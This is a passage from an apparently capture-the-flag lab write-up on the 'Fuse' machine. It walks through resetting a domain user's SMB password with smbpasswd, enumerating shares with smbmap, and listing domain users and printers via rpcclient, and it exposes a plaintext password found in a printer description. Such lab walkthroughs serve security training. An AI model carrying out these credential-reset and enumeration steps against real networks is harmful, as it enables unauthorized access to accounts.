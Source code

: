 Next, we will change the password of the tlavel user using smbpasswd. Afterwards, we will enumerate the smb server with smbmap using the new set of credential. 

```
┌──(kali㉿kali)-[~]
└─$ sudo smbpasswd -r 10.10.10.193 tlavel             
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel on 10.10.10.193.

┌──(kali㉿kali)-[~]
└─$ smbmap -u tlavel -p "E123456789fg" -H 10.10.10.193
[+] IP: 10.10.10.193:445        Name: fuse.fabricorp.local                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        HP-MFT01                                                NO ACCESS       HP-MFT01
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

Enumerating the HP-MFT01 share, we are unable to find any meaningful information. Apart from that, enumerating the print$ share, we are also unable to find much meaningful information.

Next, we will move on to check using rpcclient. We will be able to authenticate into the rpcclient and enumerate the list of users and printers.

```
┌──(kali㉿kali)-[~]
└─$ rpcclient -U tlavel%fSK5tBoWyIi8c3iN9X7JVY6gopqzigXm 10.10.10.193                                            3 ⚙
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```
